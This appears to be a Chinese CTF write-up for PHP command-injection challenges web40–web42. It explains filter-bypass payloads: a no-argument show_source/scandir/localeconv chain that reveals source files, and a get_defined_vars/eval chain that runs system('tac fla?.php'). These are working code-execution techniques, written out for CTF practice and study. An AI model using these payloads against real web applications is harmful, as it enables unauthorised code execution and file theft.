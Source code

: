 # web40:过滤【0-9】| ~ | \` | @ | # | $ | % | ^ | & | * | ( | ) | - | = | + | { | } | ：|‘ | “ |，| < | > | / | ? |

能过滤的都过滤了，但是没有过滤下划线，没有过滤英文括号
```
show_source(next(array_reverse(scandir(pos(localeconv())))));
```
## 代码解释
这段代码是PHP代码，它使用了多个内置函数来执行一系列操作。让我们逐步解析这段代码：

1. **`localeconv()`**: 这个函数返回一个包含本地化信息的数组，例如货币符号、小数点符号等。它通常用于获取与当前区域设置相关的信息。

2. **`pos()`**: 这个函数是 `current()` 的别名，用于返回数组中的当前元素。在这个上下文中，`pos(localeconv())` 会返回 `localeconv()` 返回的数组中的第一个元素。

3. **`scandir()`**: 这个函数列出指定目录中的文件和目录。它需要一个目录路径作为参数。在这里，`scandir(pos(localeconv()))` 会尝试扫描 `localeconv()` 返回的数组的第一个元素所代表的目录。

4. **`array_reverse()`**: 这个函数将数组中的元素顺序反转。`array_reverse(scandir(pos(localeconv())))` 会将 `scandir()` 返回的数组反转。

5. **`next()`**: 这个函数将数组的内部指针向前移动一位，并返回该元素。`next(array_reverse(scandir(pos(localeconv()))))` 会返回反转后的数组中的第二个元素。

6. **`show_source()`**: 这个函数用于显示指定文件的源代码，并使用语法高亮显示。它需要一个文件名作为参数。在这里，`show_source(next(array_reverse(scandir(pos(localeconv())))))` 会尝试显示 `next()` 返回的文件名的源代码。
### 总结
这段代码的目的是：
- 获取当前区域设置的信息。
- 使用这些信息中的第一个元素作为目录路径。
- 扫描该目录并反转文件列表。
- 获取反转后的文件列表中的第二个文件。
- 显示该文件的源代码。

```
c=print_r(get_defined_vars);     //拿到当前所有的变量值，看一看有什么能用，返回的是一组数组值
c=print_r(next(get_defined_vars));     //为了拿到包含phpinfo()函数的数组值
c=print(array_pop(next(get_defined_vars)));    //从数组中弹出phpinfo（）函数
c=eval(array_pop(next(get_defined_vars)));     //执行phpinfo()

1=system(“tac fla?.php”);
```
`get_defined_vars()` 是一个 PHP 内置函数，它返回一个包含当前作用域中所有已定义变量的数组。这个数组的键是变量名，值是变量的内容。

# web41:过滤/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i

由于屏蔽了全部的字母和数字，我们需要自己拼凑出代码，考查或运算，留个脚本
[web41题解](https://blog.csdn.net/miuzzx/article/details/108569080)

# web42: shell重定向，页面上不会显示任何输出或错误信息
